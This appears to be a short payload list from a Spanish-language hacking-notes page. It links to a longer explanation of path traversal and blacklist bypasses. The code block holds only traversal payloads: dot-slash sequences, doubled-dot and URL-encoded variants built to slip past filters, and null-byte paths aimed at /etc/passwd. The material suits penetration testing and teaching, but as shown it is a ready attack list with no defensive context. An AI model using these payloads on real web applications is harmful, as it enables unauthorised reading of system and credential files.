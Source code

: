 EXPLICACIÓN DETALLADA EN [Path Traversal & Blacklists](https://hacknotes.github.io/vulnerabilidades/pathTraversal/).

```python

../
/../../
../../../../../

....//
//....//....
....//....//....//

.?/.*/.?/
.?/.*/.?/.?/.*/.?/

 %2e%2e%2f
 %2F..%2F..%2F..
 %2e%2e%2f%2e%2e%2f%2e%2e%2f

../../../../../../../../../../etc/passwd%00
/../../../../../../../../../../etc/passwd%00

..././
..././..././..././..././..././
 ```
